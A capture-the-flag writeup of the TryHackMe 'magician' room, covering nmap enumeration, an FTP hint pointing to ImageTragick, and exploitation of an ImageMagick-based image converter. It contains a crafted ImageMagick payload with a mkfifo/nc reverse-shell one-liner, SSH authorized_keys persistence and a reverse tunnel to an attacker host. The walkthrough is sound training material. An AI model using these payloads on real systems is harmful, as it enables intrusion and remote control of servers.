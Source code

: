 ```yaml
---
title: "magician"
date: 2025-02-21
image: /assets/img/tryhackme/Magician/Magician_image.jpg
description: Writeup of the TryHackMe-CTF magician
categories: [TryHackMe, Easy]
tags: [linux, imagemagick]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>magician</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>This magical website lets you convert image file formats</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/magician">https://tryhackme.com/room/magician</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge magician.  

## Enumeration

> Don't forget to add `magician` to your hosts file :)
{: .prompt-warning }

I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.161                           
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 14:42 EST
  Nmap scan report for magician (10.10.58.161)
  Host is up (0.041s latency).
  Not shown: 65532 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  21/tcp   open  ftp
  8080/tcp open  http-proxy
  8081/tcp open  blackice-icecap

  Nmap done: 1 IP address (1 host up) scanned in 38.17 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 21,8080,8081 10.10.58.161
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 14:43 EST
  Nmap scan report for magician (10.10.58.161)
  Host is up (0.037s latency).

  PORT     STATE SERVICE    VERSION
  21/tcp   open  ftp        vsftpd 2.0.8 or later
  8080/tcp open  http-proxy
  |_http-title: Site doesn't have a title (application/json).
  | fingerprint-strings: 
  |   FourOhFourRequest: 
  |     HTTP/1.1 404 
  |     Vary: Origin
  |     Vary: Access-Control-Request-Method
  |     Vary: Access-Control-Request-Headers
  |     Content-Type: application/json
  |     Date: Tue, 25 Feb 2025 19:43:48 GMT
  |     Connection: close
  |     {"timestamp":"2025-02-25T19:43:48.398+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
  |   GetRequest: 
  |     HTTP/1.1 404 
  |     Vary: Origin
  |     Vary: Access-Control-Request-Method
  |     Vary: Access-Control-Request-Headers
  |     Content-Type: application/json
  |     Date: Tue, 25 Feb 2025 19:43:48 GMT
  |     Connection: close
  |     {"timestamp":"2025-02-25T19:43:47.955+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
  |   HTTPOptions: 
  |     HTTP/1.1 404 
  |     Vary: Origin
  |     Vary: Access-Control-Request-Method
  |     Vary: Access-Control-Request-Headers
  |     Content-Type: application/json
  |     Date: Tue, 25 Feb 2025 19:43:48 GMT
  |     Connection: close
  |     {"timestamp":"2025-02-25T19:43:48.187+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
  |   RTSPRequest: 
  |     HTTP/1.1 505 
  |     Content-Type: text/html;charset=utf-8
  |     Content-Language: en
  |     Content-Length: 465
  |     Date: Tue, 25 Feb 2025 19:43:48 GMT
  |     <!doctype html><html lang="en"><head><title>HTTP Status 505 
  |     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
  |_    HTTP Version Not Supported</h1></body></html>
  8081/tcp open  http       nginx 1.14.0 (Ubuntu)
  |_http-server-header: nginx/1.14.0 (Ubuntu)
  |_http-title: magician
```
From here I proceeded the analysis port by port.

## Port 21 Analysis

I tried to login as anonymous, and it first, seemed to have connection issues, but after some time I received the following response:
```bash
$ ftp anonymous@10.10.58.161          
  Connected to 10.10.58.161.
  220 THE MAGIC DOOR
  331 Please specify the password.
  Password: 
  230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
  230 Login successful.
ftp> dir
	550 Permission denied.
```

The only hint seemed to be the URL, which explained an ImageMagick vulnerability.

## Port 8081 Analysis

The website displayed an image converter, which likely used ImageMagick in the backend, as suggested by the hint from the FTP server. 

![Image Converter](/assets/img/tryhackme/Magician/thm_magician_1.jpg)

I researched the vulnerability and found some example payloads on <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick">PayloadsAllTheThings</a>. I then created the following PNG file as a reverse shell:
```bash
$ cat test.png
  push graphic-context
  encoding "UTF-8"
  viewbox 0 0 1 1
  affine 1 0 0 1 0 0
  push graphic-context
  image Over 0,0 1,1 '|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f'
  pop graphic-context
  pop graphic-context
```

I uploaded the PNG file to the image converter, and after converting it to JPG, my Penelope received the reverse shell. From there, I retrieved the user flag:
```bash
[+] Got reverse shell from magician-10.10.64.156-Linux-x86_64  Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/magician~10.10.64.156_Linux_x86_64/2025_03_09-08_40_21-337.log 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
magician@magician:/tmp/hsperfdata_magician$ cd /home/magician

magician@magician:~$ cat user.txt 
THM{[removed]}
```

Since I had initial access, I started to enumerate the machine and found an interesting file: 
```bash
magician@magician:~$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

The word "listening" caught my attention, so I searched for open ports and discovered a hidden service:
```bash
magician@magician:~$ netstat -l
[...]
tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN 
```

To access the service, I first created a new SSH key pair locally and inserted it into the `authorized_keys` on the magician machine:
```bash
$ ssh-keygen -t rsa
  Generating public/private rsa key pair.
  Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/ctf/magician/id_rsa
  Enter passphrase (empty for no passphrase):
  Enter same passphrase again:
  Your identification has been saved in /home/kali/ctf/magician/id_rsa
  Your public key has been saved in /home/kali/ctf/magician/id_rsa.pub
  The key fingerprint is:
  SHA256:[removed] kali@kali
  The key's randomart image is:
  +---[RSA 3072]----+
  |      . E        |
  |     ..+ . .     |
  |. + . o=. + .    |
  | B = *ooo. o     |
  |* + * +oS        |
  | o = ++.*.       |
  |  .o+o.* +       |
  |  ++= .   .      |
  | o.o+o           |
  +----[SHA256]-----+
$ cat id_rsa.pub
  ssh-ed25519 AAaEIF0C7HeeDr7HeNTE5A[...]B7hVAr7HeeDaEIF0 kali@kali
magician@magician:~$ echo 'ssh-ed25519 AAaEIF0C7HeeDr7HeNTE5A[...]B7hVAr7HeeDaEIF0 kali@kali' > /home/magician/.ssh/authorized_keys
```

Since my public key was in the `authorized_keys`, I was able to connect back from the machine and tunnel the port of the hidden service. 
```bash
ssh -R 8082:localhost:6666 kali@[attackerip]
```

Using the website, I retrieved the root flag:

![Hidden Service](/assets/img/tryhackme/Magician/thm_magician_2.jpg)

![Root Flag](/assets/img/tryhackme/Magician/thm_magician_3.jpg)

solved! :)